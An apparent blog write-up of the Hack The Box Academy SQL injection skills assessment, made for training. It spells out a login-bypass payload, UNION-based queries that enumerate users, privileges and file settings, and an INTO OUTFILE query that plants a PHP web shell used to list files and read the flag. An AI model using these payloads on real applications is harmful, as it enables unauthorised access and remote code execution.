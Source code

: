 ```yaml
---
layout: post
title:  "Hack The Box - Academy - SQL Injection Fundamentals"
date:   2024-10-03 20:25
image:  /images/htb/sql-injection/logo.png
tags:   [sqli,cbbh]
categories: [htbacademy]
---
```


><b>Overview:</b>
 Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.
<br/>
<a href="https://academy.hackthebox.com/module/33/section/193">Introduction to SQL Injection</a>

<br/>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/33/section/177">SQL Injection Fundamentals</a><br/>
<a href="https://jacozwarts.github.io/images/htb/sql-injection/Sql_Injection_Fundamentals_Module_Cheat_Sheet.pdf">SQL Injection - Cheat Sheet</a>
<br/>


## Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

#### 1. Bypassing the Login Page with SQL Injection
Begin by visiting the web application's login page. To bypass authentication, input the following SQL injection payload in the username field:
```
' OR 1=1 -- -
```
![Login Page](/images/htb/sql-injection//login.png)
This payload effectively bypasses the login check, granting us access to the application without valid credentials.

#### 2. Testing for SQL Injection in the Search Bar
After logging in, navigate to the Payroll information section and locate the search bar. We can test for SQL injection vulnerabilities by submitting the following payload:
![Payroll Information page](/images/htb/sql-injection/payroll_info_table.png)
```
' ORDER BY 1 -- -
```
![Test for SQL Injection](/images/htb/sql-injection/orderby_test.png)
If the page loads successfully without errors, it suggests the search bar is vulnerable to SQL injection. Now, we’ll proceed to determine the number of columns in the underlying query.

#### 3. Determining the Column Count
To identify the column count for the SQL query, increment the ORDER BY number until an error is returned. When an error occurs, reduce the count by one—this gives you the number of columns in the query.
![Column Count](/images/htb/sql-injection/orderby6.png)
![Column Count](/images/htb/sql-injection/orderby6-result.png)
#### 4. Identifying the Current User
With knowledge of the column count, we can perform an In-Band Union-Based SQL injection to retrieve key information, such as the current user:
```
' UNION SELECT 1,2,user(),3,4 -- -
```
![Current User](/images/htb/sql-injection/currentuser.png)

#### 5. Checking User Privileges
To explore the privileges granted to the current user, use the following query:
```
' UNION SELECT 1, grantee, privilege_type,is_grantable,3 FROM information_schema.user_privileges
WHERE grantee="'root'@'localhost'"-- -
```
![User Privileges](/images/htb/sql-injection/user_privileges.png)
If the user has file permissions, we can proceed with attempting file operations.

#### 6. Accessing MySQL Directories
Next, check the directories accessible through MySQL by querying the secure_file_priv variable:
```
' UNION SELECT 1, variable_name, variable_value, 4,5
FROM information_schema.global_variables where
variable_name="secure_file_priv"-- -
```
![Secure File Priv](/images/htb/sql-injection/mysql_directory_access.png)

If the `SECURE_FILE_PRIV` value is empty, it indicates that file read/write operations can be performed anywhere on the system.

#### 7. Writing a Web Shell to the Server
We’ll now attempt to write a web shell to the server. Initially, try writing the shell to the default web directory:

![Webshell writing failed](/images/htb/sql-injection/write_permission_denied.png)
```
' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"", "","" into outfile '/var/www/html/shell.php'-- -
```
If permission is denied, update the file path to target a different directory, such as the dashboard directory (Payroll Information URL is /dashboard/dashboard.php):

```
' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"", "","" into outfile '/var/www/html/dashboard/shell.php'-- -
```
#### 8. Testing the Web Shell
Once the web shell is successfully written, test it by navigating to the URL:
![Testing web shell](/images/htb/sql-injection/webshell-executed.png)
```
{TARGET_IP}:{TARGET_PORT}/dashboard/shell.php?0=ls
```
This command list all files in the directory, confirming that the web shell is working.

#### 9. Retrieving the Flag
Enumerate the directories to locate the flag. Once found, use the cat command to display its contents:
```
http://{TARGET_IP}:{TARGET_PORT}/dashboard/shell.php?0=cat%20../../../../flag_cae1dadcd174.txt
```
![Flag result](/images/htb/sql-injection/flag_result.png)
<br/>
Submit the contents of the flag as the answer to complete the challenge.
<hr/>